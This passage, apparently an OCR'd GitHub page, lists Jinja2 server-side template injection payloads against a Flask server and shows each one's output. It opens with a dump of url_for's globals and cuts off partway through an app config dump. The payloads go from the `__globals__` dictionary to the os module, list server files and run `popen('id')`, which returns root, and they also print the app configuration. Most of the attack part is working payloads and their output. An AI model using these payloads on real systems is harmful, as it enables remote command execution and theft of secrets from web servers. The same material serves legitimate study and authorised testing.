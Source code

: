 ```txt
'RequestedRangeNotSatisfiable': <class 
'werkzeug.exceptions.RequestedRangeNotSatisfiable'>, 'BuildError': <class 
'werkzeug.routing.BuildError'>, 'url_quote': <function url_quote at 0x7fc672fecf70>, 
'wrap_file': <function wrap_file at 0x7fc672cdd820>, 'fspath': <built-in function 
fspath>, 'PY2': False, 'string_types': (<class 'str'>,), 'text_type': <class 'str'>, 
'_app_ctx_stack': <werkzeug.local.LocalStack object at 0x7fc672bf4310>, 
'_request_ctx_stack': <werkzeug.local.LocalStack object at 0x7fc672be6f10>, 
'current_app': <Flask 'server'>, 'request': <Request 'http://192.168.99.100:5000/' 
[POST]>, 'session': <NullSession {}>, 'message_flashed': <flask.signals._FakeSignal 
object at 0x7fc672b867c0>, '_missing': <object object at 0x7fc672d8b4b0>, 
'_os_alt_seps': [], 'get_env': <function get_env at 0x7fc672b94040>, 'get_debug_flag': 
<function get_debug_flag at 0x7fc672b940d0>, 'get_load_dotenv': <function 
get_load_dotenv at 0x7fc672b943a0>, '_endpoint_from_view_func': <function 
_endpoint_from_view_func at 0x7fc672b94430>, 'stream_with_context': <function 
stream_with_context at 0x7fc672b944c0>, 'make_response': <function make_response at 
0x7fc672b94550>, 'url_for': <function url_for at 0x7fc672b945e0>, 
'get_template_attribute': <function get_template_attribute at 0x7fc672b94670>, 'flash': 
<function flash at 0x7fc672b94700>, 'get_flashed_messages': <function 
get_flashed_messages at 0x7fc672b94790>, 'send_file': <function send_file at 
0x7fc672b94820>, 'safe_join': <function safe_join at 0x7fc672b948b0>, 
'send_from_directory': <function send_from_directory at 0x7fc672b94940>, 
'get_root_path': <function get_root_path at 0x7fc672b949d0>, 
'_matching_loader_thinks_module_is_package': <function 
_matching_loader_thinks_module_is_package at 0x7fc672b94a60>, '_find_package_path': 
<function _find_package_path at 0x7fc672b94af0>, 'find_package': <function find_package 
at 0x7fc672b94b80>, 'locked_cached_property': <class 
'flask.helpers.locked_cached_property'>, '_PackageBoundObject': <class 
'flask.helpers._PackageBoundObject'>, 'total_seconds': <function total_seconds at 
0x7fc672b94c10>, 'is_ip': <function is_ip at 0x7fc672b933a0>}! 
```
- `{{url_for.__globals__.__getitem__}}`   
```txt
Hello <built-in method __getitem__ of dict object at 0x7fc672baeec0>! 
```
- `{{url_for.__globals__.__getitem__('os')}}`   
```txt
Hello <module 'os' from '/usr/local/lib/python3.9/os.py'>! 
```
- `{{url_for.__globals__.__getitem__('os').listdir('./')}}`   
```txt
Hello ['server.py', 'run.sh', 'requirements.sh']! 
```
- `{{url_for.__globals__['os']}}`   
```txt
Hello <module 'os' from '/usr/local/lib/python3.9/os.py'>! 
```
- `{{url_for.__globals__['os'].listdir('./')}}`   
```txt
Hello ['server.py', 'run.sh', 'requirements.sh']! 
```
- `{{url_for.__globals__['os'].popen('id').read()}}`   
```txt
Hello uid=0(root) gid=0(root) groups=0(root) ! 
```
- `{{url_for.__globals__['current_app']}}`   
```txt
Hello <Flask 'server'>! 
```
- `{{url_for.__globals__['current_app'].config}}`   
```txt
Hello <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 
'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 
'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 
'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': 
True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 
```